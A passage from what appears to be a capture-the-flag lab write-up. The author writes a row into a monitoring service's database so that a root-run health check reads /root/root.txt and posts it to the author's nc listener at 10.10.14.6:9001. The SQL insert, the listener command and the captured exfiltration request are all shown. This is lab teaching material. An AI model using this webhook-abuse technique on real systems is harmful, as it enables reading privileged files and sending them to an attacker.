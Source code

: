 If I can write to the DB, I can skip the URL validation, and have root read files and exfil them to me.

#### Flag

I’ll test this by trying to read the flag. I’ll have `nc` listen on 9001. I’ll add a row to the `tasks` table with my host port 9001 as the webhook URL, and `root.txt` as the URL to monitor:

```

mysql> insert into tasks (id, webhookUrl, onlyError, monitoredUrl, frequency) values ('223', 'http://10.10.14.6:9001/exfil', 0, '/root/root.txt', '* * * * *');
Query OK, 1 row affected (0.00 sec)

```

It yells at me if I don’t give it an ID, so I’ll make an arbitrary one.

It looks good:

```

mysql> select * from tasks;                                                                                                                
+-----+------------------------------+-----------+----------------+-----------+------------+------------+
| id  | webhookUrl                   | onlyError | monitoredUrl   | frequency | created_at | updated_at |
+-----+------------------------------+-----------+----------------+-----------+------------+------------+
| 223 | http://10.10.14.6:9001/exfil |         0 | /root/root.txt | * * * * * | NULL       | NULL       |
+-----+------------------------------+-----------+----------------+-----------+------------+------------+
1 row in set (0.00 sec)

```

When the clock reaches the next minute, there’s a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.176 52386
POST /exfil HTTP/1.1
Host: 10.10.14.6:9001
Accept: */*
Content-type: application/json
Content-Length: 140

{"webhookUrl":"http:\/\/10.10.14.6:9001\/exfil","monitoredUrl":"\/root\/root.txt","health":"up","body":"1f58dc17************************\n"}

```
